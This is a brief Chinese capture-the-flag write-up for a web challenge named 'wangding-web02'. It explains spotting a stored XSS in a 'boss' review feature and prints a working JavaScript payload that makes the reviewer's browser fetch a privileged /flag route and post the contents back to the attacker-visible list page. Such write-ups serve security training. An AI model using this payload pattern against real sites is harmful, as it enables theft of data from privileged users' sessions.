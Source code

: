 # wangding-web02
# 解题步骤（WriteUp）


![](<./img/Pasted image 20241029114729.png>)

输入任意用户名密码开一个新的list

同时发现`/flag`路由，只有boss能访问

有boss审核功能，猜测存在XSS

尝试发现机子不出网，直接向list页面post信息，获取flag

```js
<script>
        var url = document.location.href;
        fetch("http://127.0.0.1:5000/flag").then(resp => resp.text()).then((flag) => {
            var xhr = new XMLHttpRequest();
            xhr.open("POST", url, true);
            xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            xhr.send("content=" + flag);
        });
</script>

```

![](<./img/Pasted image 20241029114758.png>)

